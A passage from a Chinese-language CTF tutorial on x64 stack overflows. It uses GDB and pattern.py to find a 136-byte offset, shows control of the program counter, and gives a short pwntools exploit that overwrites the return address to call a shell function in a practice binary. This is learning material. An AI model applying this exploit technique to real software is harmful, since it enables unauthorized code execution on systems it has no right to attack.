 奇怪的事情发生了，PC指针并没有指向类似于`0x41414141`那样地址，而是停在了`vulnerable_function()`函数中。这是为什么呢？原因就是我们之前提到过的程序使用的内存地址不能大于`0x00007fffffffffff`，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。

```
#!bash
(gdb) x/gx $rsp
0x7fffffffe188: 0x3765413665413565
```

在GDB里，x是查看内存的指令，随后的gx代表数值用64位16进制显示。随后我们就可以用pattern.py来计算溢出点。

```
#!bash
$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
136
```

可以看到溢出点为136字节。我们再构造一次payload，并且跳转到一个小于`0x00007fffffffffff`的地址，看看这次能否控制pc的指针。

```
#!bash
python -c 'print "A"*136+"ABCDEF\x00\x00"' > payload

(gdb) run < payload 
Starting program: /home/mzheng/CTF/level1 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? ()
```

可以看到我们已经成功的控制了PC的指针了。所以最终的exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('level3')

p = process('./level3')
#p = remote('127.0.0.1',10001)

callsystem = 0x0000000000400584

payload = "A"*136 + p64(callsystem)

p.send(payload)

p.interactive()
```

# 0x03使用工具寻找gadgets
